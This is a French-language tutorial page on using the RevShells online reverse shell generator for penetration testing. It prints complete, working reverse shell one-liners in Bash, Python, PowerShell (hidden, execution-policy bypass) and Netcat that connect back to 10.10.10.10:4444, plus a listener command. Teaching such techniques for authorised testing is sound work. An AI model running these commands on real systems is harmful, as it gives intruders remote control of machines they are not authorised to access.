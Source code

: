# Shells et Reverse Shells

### **Tuto RevShells : Générateur de Reverse Shells en ligne**

⚠️ **Avertissement** : Ce contenu est strictement destiné à un usage éducatif et éthique dans le domaine de la cybersécurité. Toute utilisation illégale ou malveillante est interdite et engage la seule responsabilité de l’utilisateur.

### **Introduction**

RevShells est un outil en ligne qui aide à générer des commandes de reverse shells adaptées à différents environnements et langages. Il est particulièrement utile pour les tests de pénétration ou les exercices de cybersécurité.

***

### **Fonctionnalités principales :**

* Génération rapide de commandes de reverse shells compatibles avec divers langages (Bash, Python, PHP, PowerShell, etc.).
* Paramétrage simple avec l'adresse IP et le port cible.
* Options pour des shells spécifiques comme Netcat, Socat, Perl, Ruby, ou encore Java.
* Affichage des configurations nécessaires sur la machine d'écoute.

***

### **Comment utiliser RevShells :**

1. **Accéder au site :**
   * Rendez-vous sur [RevShells](https://www.revshells.com/).
2. **Configurer les paramètres :**
   * **IP** : Entrez l'adresse IP de votre machine attaquante (celle où le shell se connectera).
   * **Port** : Indiquez le port que votre machine écoutera pour la connexion entrante.
3. **Choisir le type de shell :**
   * RevShells propose une liste complète de reverse shells parmi les plus courants :
     * **Bash** : Pour les environnements Linux/Unix.
     * **Netcat** : Une solution rapide si Netcat est disponible.
     * **Python/Perl/Ruby** : Pour les systèmes ayant ces interpréteurs.
     * **PHP** : Utile pour les serveurs web.
     * **PowerShell** : Pour les systèmes Windows.
     * **Socat** : Pour un reverse shell plus robuste.
     * **Java** : Pour des environnements basés sur Java.
   * Cliquez sur le shell souhaité pour générer la commande correspondante.
4. **Copier la commande générée :**
   * La commande adaptée à votre configuration est affichée. Vous pouvez la copier pour l'utiliser sur la machine cible.
5. **Configurer l'écouteur sur votre machine :**
   * RevShells fournit également la commande à exécuter sur votre machine pour écouter les connexions entrantes.
   *   Exemple avec Netcat :

       ```bash
       nc -lvnp [PORT]
       ```
   * Lancez cette commande avant d'exécuter le shell généré sur la machine cible.

***

### **Exemples de commandes générées :**

**1. Bash Reverse Shell :**

```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**2. Python Reverse Shell :**

```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

**3. PowerShell Reverse Shell :**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)};$client.Close()
```

**4. Netcat Reverse Shell :**

```bash
nc -e /bin/bash 10.10.10.10 4444
```

***

### **Bonnes pratiques :**

* **Test en environnement contrôlé** : Utilisez toujours les reverse shells dans un environnement d'apprentissage ou autorisé.
* **Configurer le pare-feu local** : Assurez-vous que le port spécifié est ouvert sur votre machine attaquante.
* **Évitez les abus** : RevShells est conçu pour des tests éthiques et éducatifs uniquement.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
